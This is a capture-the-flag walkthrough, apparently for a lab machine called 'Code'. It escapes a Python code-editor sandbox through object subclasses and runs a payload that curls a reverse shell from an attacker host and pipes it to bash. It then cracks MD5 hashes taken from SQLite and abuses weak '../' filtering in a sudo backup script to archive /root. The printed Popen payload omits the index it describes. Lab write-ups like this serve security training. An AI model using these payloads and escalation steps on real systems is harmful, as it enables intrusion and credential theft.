


# Code



Code is an easy Linux machine featuring a Python Code Editor web application that is vulnerable to remote code execution by achieving a Python Jail Bypass. After gaining access as the app-production user, crackable credentials can be found in an sqlite3 database file. Using these credentials, access is granted to another user, martin, who has sudo permissions to a backup utility script, backy.sh. This script includes a section of vulnerable code, which, when exploited, allows us to escalate our privileges by creating a copy of the root folder.

## Reconnaissance

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap already showed a Python-based web server running on port 5000. The page title suggests this is some kind of interactive Python code editor, and browsing the site confirms that assumption.



## Execution

The sandbox applies a blacklist that blocks keywords such as `eval`, `exec`, `import`, `open`, `os`, `read`, `system`, `write`, `subprocess`, `__import__`, and `__builtins__`. That makes direct file access and library loading tricky, but it doesn’t prevent me from inspecting the runtime environment.

I start by listing the available classes through the base object:

```python
for index, value in enumerate(''.__class__.__base__.__subclasses__()):
    print(f'{index}: {value}')
```

The browser output gets truncated, so I repeat the same query via `curl` and pipe it into `jq` to see the full result.

```bash
curl -s 'http://target-IP:5000/run_code' \
     -X POST \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
     --data-raw $'code=for+index%2C+value+in+enumerate(\'\'.__class__.__base__.__subclasses__())%3A%0A++++print(f\'%7Bindex%7D%3A+%7Bvalue%7D\')' \
     | jq -r .output
```

Among the ~721 entries, I spot `subprocess.Popen` at index 317. That class is already imported by the application, so I can leverage it to execute arbitrary commands.

```python
''.__class__.__base__.__subclasses__()(['/bin/bash', '-c', 'curl http://Attacker-IP/shell|bash'])
```

Hosting a reverse shell payload at `/shell` on my attacker machine and running this payload gives me a shell as `app-production`.

## Privilege Escalation

Even though the site has a login form, I can already move horizontally through the application environment. Inspection of the source in `/home/app-production/app/app.py` reveals a SQLite database backend and MD5‑hashed user credentials.

```python
# --- SNIP ---
app = Flask(__name__)
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
# --- SNIP ---

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)
```

Querying the database shows two accounts: `development` and `martin`.

```bash
sqlite3 /home/app-production/app/instance/database.db
```

```sql
.tables
code  user

select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
```

Cracking the hashes with `john` yields the passwords and allows me to switch to `martin`.

```bash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt --fork=10 hash
```

## Shell as root

From `martin`, I check sudo permissions and see that I can run `/usr/bin/backy.sh` as any user.

```bash
sudo -l
```

The script expects a JSON task file, sanitizes the `directories_to_archive` list by removing `../` once, and then calls the `backy` binary. The allowed paths are restricted to `/var/` and `/home/`.

```bash
/usr/bin/backy.sh
```

```bash
#!/bin/bash
# --- SNIP ---
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
# --- SNIP ---
```

In `martin`’s home there is a `backups` directory with `task.json`, which looks like the job definition for an existing backup.

```json
{
    "destination": "/home/martin/backups/",
    "multiprocessing": true,
    "verbose_log": false,
    "directories_to_archive": ["/home/app-production/app"],
    "exclude": [".*"]
}
```

The traversal filter is easy to bypass by using `....//`, which collapses to `../` after a single replacement. I modify the task:

```json
{
    "directories_to_archive": ["/home/martin/....//....//root"],
    "destination": "/dev/shm"
}
```

Running the script as root creates a backup of the root directory inside `/dev/shm`. I then extract the archive to grab the `root.txt` flag and the SSH private key for `root`.

```bash
sudo /usr/bin/backy.sh task.json
tar xvf code_home_martin_.._.._root_2025_March.tar.bz2
```

## Attack Path

- Identify SSH on 22 and the Python web server on 5000.
- Visit the interactive code editor and confirm the sandbox.
- Bypass the keyword filters by inspecting available classes.
- Use `subprocess.Popen` to spawn a reverse shell.
- Retrieve and read the application source and database.
- Dump user hashes and crack them to pivot to `martin`.
- Enumerate sudo permissions and locate the backup script.
- Abuse incomplete path‑traversal filtering in the JSON task.
- Archive the root directory through the backup binary.
- Extract the root flag and SSH key.
